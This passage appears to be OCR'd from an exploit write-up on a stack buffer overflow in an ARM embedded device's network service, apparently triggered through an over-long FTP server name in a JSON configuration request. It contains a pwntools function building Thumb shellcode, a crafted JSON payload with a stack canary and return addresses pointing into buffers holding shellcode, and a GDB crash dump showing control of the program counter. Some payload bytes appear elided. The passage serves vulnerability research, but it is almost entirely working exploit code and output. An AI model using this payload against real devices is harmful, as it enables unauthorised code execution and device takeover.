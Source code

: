 ```
-python
def generate_thumb_pointer_jump(ptr_addr, base_addr=0):   
    # Create the shellcode
    instructions = asm(f'''
        ldr r3, [pc, #0x8]  /* Load address of pointer from literal pool */
        ldr r4, [pc, #0xc]  /* load key */
        eors r3, r4         /* get original pointer */
        ldr r3, [r3]        /* Load value from the pointer */
        adds r3, #0x50      /* add offset */
        bx r3               /* Jump to the loaded address */
    ''', arch='thumb', endian='little')

    literal_pool = p32(ptr_addr ^ 0xffffffff) + p32(0xffffffff)
    
    return instructions + literal_pool
```

And here is the JSON payload that triggers the overflow, it isn't pretty but it works:

```
json_byte_payload = b'{"Name": "FTP", "FTP": {"Server": {"Name": "' + 15* b"a" + 119 * b"b" + b'.' +119 * b"c" + b'.' + 119 * b"d" + b'.' + 119 * b"e" + b'.'
json_byte_payload += b'....'
json_byte_payload += b'\x30\xb2\x65..' # canary
json_byte_payload += b'a'*15
json_byte_payload += b'\x1d\x8b\x66..' # address of password buffer containing thumb instructions (therefore add 1)
json_byte_payload += b'a'*15 
json_byte_payload += b'\x64\x8b\x66..' # address of username buffer we jump to containing arm instructions
json_byte_payload += b'a'*10
json_byte_payload += b'", "Port": 9898, "UserName": "aaaaaaa", "Password": "bbbbbbb"}}, "SessionID": "0x0001869f"}'
```

### Testing

Setting the contents of stage 1 to be an invalid instruction (*0xffffffff*) we observe the following crash:

```
Thread 42 "NetIPManager" received signal SIGILL, Illegal instruction.
[Switching to Thread 640.736]
0xb3853070 in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0xffffffff
$r1  : 0x0       
$r2  : 0x0       
$r3  : 0xb3853060
$r4  : 0xffffffff
$r5  : 0x61616161 ("aaaa"?)
$r6  : 0x61616161 ("aaaa"?)
$r7  : 0x00668b1d  →  0x634c034b
$r8  : 0x61616112
$r9  : 0x61616161 ("aaaa"?)
$r10 : 0x61616161 ("aaaa"?)
$r11 : 0x61616161 ("aaaa"?)
$r12 : 0xb5159690  →  0x00000000
$sp  : 0xb5159a30  →  "\naaaaaaaaaa"
$lr  : 0x0041ddf4  →   mvn r7,  #0
$pc  : 0xb3853070
$cpsr: [NEGATIVE zero carry overflow interrupt fast thumb]
```